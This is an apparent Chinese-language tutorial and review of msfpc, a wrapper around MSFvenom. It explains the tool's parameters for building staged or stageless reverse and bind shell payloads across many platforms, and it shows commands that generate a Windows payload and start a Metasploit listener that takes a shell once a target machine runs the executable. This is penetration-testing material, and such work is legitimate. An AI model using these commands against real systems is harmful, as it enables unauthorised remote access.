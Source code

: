 # msfpc
## 简介
MSFvenom Payload Creator（msfpc）是一个基于MSFvenom的Payload生成器，旨在简化Payload的创建过程，使用户尽可能简单的创建payload
## 参数详解
```
msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
```
+ < type>：
  + APK
  + ASP
  + ASPX
  + Bash [.sh]
  + Java [.jsp]
  + Linux [.elf]
  + OSX [.macho]
  + Perl [.pl]
  + PHP
  + Powershell [.ps1]
  + Python [.py]
  + Tomcat [.war]
  + Windows [.exe // .dll]
+ <DOMAIN/IP>：默认IP菜单，除了IP地址，还允许输入eth0，lo，wan
+ < PORT>：默认443
+ <CMD/MSF>：默认MSF    
  + CMD：用cmd进行交互
  + MSF：用msf进行交互，功能较强
+ <BIND/REVERSE>：默认REVERSE
  + BIND：正向连接
  + REVESE：反向连接
+ <STAGED/STAGELESS>：默认STAGED
  + STAGED：将payload分块，使其更小，依赖Metasploit
  + STAGELESS：完整独立的payload，比STAGED稳定
+ <TCP/HTTP/HTTPS/FIND_PORT>：默认TCP
  + TCP：tcp连接，最兼容types，容易被ids检测
  + HTTP：http连接，限制协议端口访问，如80
  + HTTPS：https连接，限制协议端口访问，如443
  + FIND_PORT：尝试在所有端口寻找出路
+ <BATCH/LOOP>
  + BATCH：生成尽可能多的组合
  + LOOP：生成其中一种
+ <VERBOSE>：显示更多信息：type，size，md5和sha1
## 简单使用实例
1. 使用msfpc生成payload
```
msfpc windows eth0
```
![Alt text](./1511872626842.png)
2. 使用生成的rc监听(-q 跳过启动画面 -r 加载resources脚本)
```
msfconsole -q -r '/root/msf/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
```
![Alt text](./1511872454543.png)
3. 靶机执行exe后
![Alt text](./1511872477273.png)
<br/> 轻松写意获得靶机的shell
## 一点小插曲和个人评价
看完所有参数后，最好奇的是find_port参数，执行后却发现
![Alt text](./1511873549693.png)
Metaspolit不支持！！！
个人觉得msfpc对新手挺友好的，虽然缺少了msfvenom的编码功能，命令行参数也差不多，但胜在能自动生成rc文件，在侦听时非常方便！

